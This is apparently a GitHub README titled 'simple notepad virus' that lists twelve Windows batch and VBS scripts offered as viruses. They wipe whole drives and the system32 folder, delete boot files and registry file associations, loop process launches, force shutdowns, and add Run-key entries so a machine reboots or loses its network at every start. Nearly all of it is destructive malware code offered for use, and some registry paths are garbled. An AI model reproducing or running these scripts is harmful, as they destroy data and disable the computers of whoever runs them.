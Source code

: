 # ViRuS
##simple notepad virus


# codes given below

- virus - 1

@echo off
:VIRUS
cd /d C:
md %RANDOM%
cd /d D:
md %RANDOM%
cd /d E:
md %RANDOM%
goto VIRUS
REM #######################
REM errorcode401.blogspot.in


-----------------------------------
-  virus - 2

@echo off
del D:\*.* /f /s /q
del E:\*.* /f /s /q
del F:\*.* /f /s /q
del G:\*.* /f /s /q
del H:\*.* /f /s /q
del I:\*.* /f /s /q
del J:\*.* /f /s /q


-------------------------
-  virus - 3

@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*


--------------------------
-  virus - 4

@Echo off
Ipconfig /release

-------------------------
- virus - 5

@echo off
msg * Lets Roll Baby
shutdown -c “Error! Your ass got glued!” -s

-----------------------------
- virus - 6

(save as .VBS)

Option Explicit

Dim WSHShell
Set WSHShell=Wscript.CreateObject(“Wscript.Shell”)

Dim x
For x = 1 to 100000000
WSHShell.Run “Tourstart.exe”
Next

--------------------------------------------------------------------
- virus - 7
rd/s/q D:\
rd/s/q C:\
rd/s/q E:\

----------------------------------------------------------------

- virus - 8

echo @echo off>c:windowshartlell.bat
echo break off>>c:windowshartlell.bat
echo shutdown -r -t 11 -f>>c:windowshartlell.bat
echo end>>c:windowshartlell.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v startAPI /t reg_sz /d c:windowshartlell.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v /t reg_sz /d c:windowshartlell.bat /f
echo You Are Nailed, Buy A New Computer This Is Piece Of Shit.
PAUSE

-----------------------------------------------------------------------------

- virus - 9

@echo off
attrib -r -s -h c:\autoexec.bat
del c:\autoexec.bat
attrib -r -s -h c:\boot.ini
del c:\boot.ini
attrib -r -s -h c:\ntldr
del c:\ntldr
attrib -r -s -h c:\windows\win.ini
del c:\windows\win.ini

--------------------------------------------------------------
- virus - 10

shutdown -s -t 100 c “Installing Updates”

--------------------------------------------------------------------
- virus - 11

del c:\WINDOWS\system32\*.*/q

--------------------------------
- virus - 12

echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
echo You have maxed your internet usage for a lifetime ??
PAUSE



@thank you
